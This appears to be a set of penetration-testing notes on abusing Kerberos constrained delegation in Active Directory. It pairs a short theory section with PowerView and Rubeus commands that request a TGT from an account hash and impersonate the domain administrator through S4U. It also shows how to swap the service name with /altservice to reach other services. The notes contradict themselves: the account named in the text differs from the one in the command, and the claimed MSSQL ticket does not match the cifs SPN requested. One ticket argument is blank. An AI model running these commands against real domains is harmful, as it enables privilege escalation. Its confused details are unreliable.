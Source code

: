 ## Theory
The main goal of Kerberos delegation is to solve the double-hop issue as well.
While unconstrained delegation allowed the service to perform authentication to anything in the domain, constrained delegation limits the delegation scope.
Microsoft released two extensions for this feature:
1. [S4U2Self](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)
2. [S4U2Proxy](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a)

Constrained delegation is configured on the coputer with the _msds-allowedtodelegateto_ property  by specifying the SPNs the current object is allowed constrained delegation against.

If a front-end service does not use Kerberos authentication and the back-end service does, it needs to be able to request a TGS to the frontend service from a KDC on behalf of the user who is authenticating against it.

The S4U2Self extension enables this if the TRUSTED_TO_AUTH_FOR_DELEGATION value is present in the _useraccountcontrol_ property.
The S4U2proxy extension requests a service ticket for the backend service on behalf of a user.(can also be obtained directly by the user with a forwardable tgs if kerberos auth is enabled for the front-end service)


## Exploitation
We can enumerate accounts with constrained delegation with:
```powershell
Get-DomainUser -TrustedToAuth
```

The three important aspects of the output will be:
1. Constrained delegation enabled on the victim account
2. msds-allowedtodelegate property containing the SPN.
3. The _TRUSTED_TO_AUTH_FOR_DELEGATION_ value in the _useraccountcontrol_ property.

To exploit this, we can request a service ticket for the services listed in the _msds-allowedtodelegateto_ field as any user in the domain.

Note that we do not need to execute in the context of the _IISSvc_ account in order to exploit the account.
However, we do need the password or the hash for the account.

We can use the following command if we have the hash to generate a TGT for IISSvc account:
```powershell
.\Rubeus.exe hash /password:August25

.\Rubeus.exe asktgt /user:svc_file /domain:.com /rc4:56c3d4377f4a791098b6ffdfc711c229
```

With the Base-64 encoded TGT, we can now invoke the S4U extensions, again, with Rubeus:
```Powershell
.\Rubeus.exe s4u /ticket: /impersonateuser:administrator /msdsspn:cifs/file02.denkiair.com /ptt
```

This way, we obtained a usable service ticket for the MSSQL service instance on CDC01. We can now use the sql server to gain code execution.

## Extra
Interestingly, when the TGS is returned from the KDC, the server name is encrypted, but not the service name.
This means we can modify the service name within the TGS in memory and obtain access to a different service on the same host.
We can do this through Rubeus with the /altservice option.
```Powershell
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

if the SPN configured for constrained delegation only uses the service and host name like www/cdc01.prod.corp1.com, we could modify the TGS to access any service on the system.
